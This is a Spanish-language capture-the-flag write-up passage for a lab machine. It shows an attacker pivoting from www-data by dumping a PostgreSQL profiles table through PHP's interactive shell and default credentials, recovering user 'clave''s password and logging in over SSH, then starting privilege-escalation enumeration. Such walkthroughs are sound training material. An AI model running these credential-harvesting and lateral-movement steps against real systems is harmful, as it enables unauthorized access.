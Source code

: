 ### User Pivoting {-}

Como el **user.txt** del usuario **clave** no es permitido a nivel de lectura por el usuario **www-data** tenemos que convertirnos en el usuario
**clave**.

Aprovechamos el snippet encontrado para ver lo que hay en la base de datos **postgresql**.

```bash
which psql
which php
```

Vemos que la utilidad **psql** no existe en la maquina victima, pero como tenemos acceso a la utilidad **php**, tiramos del `php --interactive`

```bash
php --interactive

$connection = new PDO('pgsql:dbname=profiles;host=localhost', 'profiles', 'profiles');
$connect = $connection->query("select * from profiles");
$results = $connect->fetchAll();
print_r($results);
```

Aqui vemos la contraseña del usuario clave. Parece ser una contraseña en base64.

```bash
echo 'c3NoLXN0cjBuZy1wQHNz==' | base64 -d; echo
#Output
ssh-str0ng-p@ss
```

Intentamos connectarnos con ssh

```bash
ssh clave@10.10.10.114
password: ssh-str0ng-p@ss
```

No nos podemos connectar pero el doble igual nos parece un poco raro. Intentamos otra vez pero con la contraseña tal cual, sin decodificacion base64.

```bash
ssh clave@10.10.10.114
password: c3NoLXN0cjBuZy1wQHNz==
```

Ya podemos conectar y leer la flag.
## Privilege Escalation {-}

### Rootear la maquina {-}

```bash
cd /root/
id
sudo -l
ls -l
```
